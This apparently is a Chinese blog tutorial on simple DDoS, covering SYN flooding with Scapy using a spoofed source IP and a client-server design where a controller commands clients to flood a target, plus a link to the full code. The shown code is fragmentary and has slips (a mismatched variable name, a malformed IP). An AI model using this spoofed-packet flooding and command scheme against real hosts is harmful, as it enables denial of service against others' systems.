 ```yaml
---
title: DDoS的简单实现
date: 2016-12-06 10:52:57
tags: other
categories: Dev
---
```


##### Scapy实现SYN泛洪攻击
<center>![](http://ww4.sinaimg.cn/large/9bcfe727jw1fagvyplc77j20b0052mxg.jpg)</center>

Scapy是一个可以让用户发送、侦听和解析并伪装网络报文的Python程序。这些功能可以用于制作侦测、扫描和攻击网络的工具。它的作用很多，简单如上图描述。

SYN泛洪攻击(SYN Flood)是一种比较常用的DoS方式之一。通过发送大量伪造的Tcp连接请求，使被攻击主机资源耗尽(通常是CPU满负荷或者内存不足) 的攻击方式。SYN泛洪攻击利用三次握手，客户端向服务器发送SYN报文之后就不再响应服务器回应的报文。由于服务器在处理TCP请求时，会在协议栈留一块缓冲区来存储握手的过程，当然如果超过一定的时间内没有接收到客户端的报文，本次连接在协议栈中存储的数据将会被丢弃。攻击者如果利用这段时间发送大量的连接请求，全部挂起在半连接状态。这样将不断消耗服务器资源，直到拒绝服务。

利用scapy构造一个SYN数据包的方法是：

    pkg = IP(src="202.121.0.12",dst="192.168.0.100")/TCP(sport=100,dport=80,flags="S")
    send(pkt)

其中，IP包中指定了源地址src和目的地址dst，其中src是我们伪造的地址，这是DoS攻击中保护攻击者的一种方式。
flags的值我们设定为S,说明我们要发送的是SYN数据包，目标端口dport为80，发送端口sport为100。

##### Socket实现DDoS攻击
总体采用CS模式，客户机连接服务器，服务器发送指令，然后客户机发起攻击，客户机使用伪装的IP攻击。
事先规定攻击命令：

    #-H xxx.xxx.xxx.xxx -p xxxx -c <start|stop>

'xxx.xxx.xxx.xxx'是目标地址， xxxx表示端口号，int型
命令可以是start：开始攻击；stop：停止攻击

###### python中的socket使用
<b>客户端</b>
```java
import socket

#创建socket: AF_INET表示IPV4协议, SOCK_STREAM表示基于流的TCP协议
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
#建立连接, 指定服务器的IP和端口
s.connect(('192.168.0,100', 7786))
```
<b>服务器</b>
```java
import socket

cliList = []
# 创建socket
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
# 绑定地址和端口号
s.bind(('0.0.0.0', 7786))：
# 开始监听，指定最大连接数为10
s.listen(10)
while True:
    # 接受一个新的连接:
    sock, addr = s.accept()
    #将sock添加到列表中
    cliList.append(sock)
```

###### python多线程 & 多进程
```java
t = Thread(target = func, args = (arg1, arg2))
t.start()

p = Process(target = func, args = (arg1, arg2))
p.start()
```

客户机接受了服务器的命令后，启动一个进程发动攻击，一个客户端可以伪造不同的IP发送大量的SYN请求，大量客户端一起工作瘫痪目标。

[具体的实现点击这里](https://github.com/Atlantic8/Project/tree/master/simple%20implementation%20of%20DDoS)
